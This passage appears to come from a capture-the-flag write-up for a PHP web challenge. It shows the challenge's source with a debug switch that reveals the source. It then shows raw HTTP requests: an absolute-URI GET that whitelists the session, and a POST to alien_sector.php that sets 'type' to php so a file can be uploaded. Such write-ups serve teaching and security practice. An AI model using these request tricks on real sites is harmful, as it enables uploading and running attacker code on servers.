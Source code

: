 ```php
        {
            mapl_die();
        }
    }

}
else
{
    echo '<h2 id="intro" class="neon">Seems like you are not belongs to this place, please comeback to ludibrium!</h2>';
    echo '<img src="assets/map.jpg" id="taxi" width="55%" height="55%" />';
    if(isset($_GET['is_debug']) and !empty($_GET['is_debug']) and $_GET['is_debug']==="1")
    {
        show_source(__FILE__);
    }
}

?>
<body background="assets/background.jpg" class="cenback">
</body>
<!-- is_debug=1 -->
<!-- All images/medias credit goes to nexon, wizet -->
</html>
```

When our *URI* match specific value, the site will add our session to a white list, which allows us to access  `alien_sector.php` and `omega_sector.php`. To access that, we can abuse our HTTP request to following format:
```
GET http://alien.somewhere.meepwn.team HTTP/1.1
Host: alien.somewhere.meepwn.team

... // Remaining headers
```

This works for both address. However, I choose to crack `alien_sector.php`. It has an arbitrary upload vulnerability. We can edit `type` to change it to PHP file:
```
POST /alien_sector.php HTTP/1.1
Host: 138.68.228.12
Origin: http://138.68.228.12
Content-Type: application/x-www-form-urlencoded
DNT: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://138.68.228.12/alien_sector.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=lik2u9ed0rtas5cl72knnht0p0
Connection: close

message=#$%^&&type=php //like this 
```
